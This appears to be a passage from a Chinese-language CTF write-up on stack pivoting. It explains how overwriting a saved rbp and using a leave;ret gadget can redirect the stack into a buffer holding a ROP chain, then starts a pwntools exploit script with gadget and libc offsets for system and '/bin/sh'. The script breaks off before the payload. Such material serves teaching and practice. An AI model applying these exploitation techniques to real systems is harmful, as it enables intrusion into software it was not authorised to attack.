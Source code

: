 2. 仔细观察两张图中间部分的状态可以得知，栈实际上是用 **rbp** 的值来确定栈底位置的。如果人为的修改了 **保存在栈上的 rbp** 的值（图中 **0x1028** 的位置中的 **值**）则可以控制栈的区间位置到不同的地方。例如，将位置 **0x1028** 中的值 **调用者的 rbp 地址** 修改为 **0x1060**，则返回后的栈的变化被修改如下

	![人为修改](E:\Pictures\markdown\image-20221117182649835.png)

	由此可以提出一个想法，在 **2.leak_libc** 中，只足以覆盖到 ret，但是足够修改子函数的 **rbp** 的值，如果将这个值修改成可以被控制的区域（例如原 buf 到 ret 这段栈空间之间），同时在相应的 **新的 ret** 的位置布置好 rop，则可以达到劫持程序流的效果（解决了 buf 溢出不够的问题）

	![image-20221117183547744](E:\Pictures\markdown\image-20221117183547744.png)

	本题中栈上内容的布置如下

	![image-20221117193042344](E:\Pictures\markdown\image-20221117193042344.png)

	其中 **bin_leave_ret** 是 **leave** 操作码的位置（mov rsp, rbp; pop rbp），即将栈顶拉到 **0x1018** 的位置，然后把父函数的父函数的 rbp 恢复（劫持了父函数的栈，但是还得保持爷函数的栈得是正常的）

	通过这样提前布置好 rop 使得在栈迁移后，ret 到了 rop 上，其他的内容就不赘述了，只要注意理解一下 exp 中关于布置栈迁移的 payload 就好
	
	![image-20221117213433277](E:\Pictures\markdown\image-20221117213433277.png)

## EXP

> 栈溢出位置充足

```python
# -*- coding: utf-8 -*-

from pwn import *
import pwn

context(log_level='debug', )
fileName = './blog1'

p = process(fileName)
elf = ELF(fileName)

p64 = pwn.p64
u64 = pwn.u64

'''
[*] '/home/wkyuu/Desktop/temp/blog1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
'''

# bin
bin_func_main = elf.sym['main']
bin_puts_plt = elf.sym['puts']
bin_puts_got = elf.got['puts']
bin_pop_rdi_ret = 0x14d3    # ROPgadget --binary blog1 | grep "pop rdi"

# libc
libc_puts = 0x75db0
libc_system = 0x4a490
libc_str_bin_sh = 0x1b3115


def logger(msg, value=None, type='info'):  # type True for value
    if type == 'info':
        log.info(
            '================================ {} ================================\n'.format(msg))
```
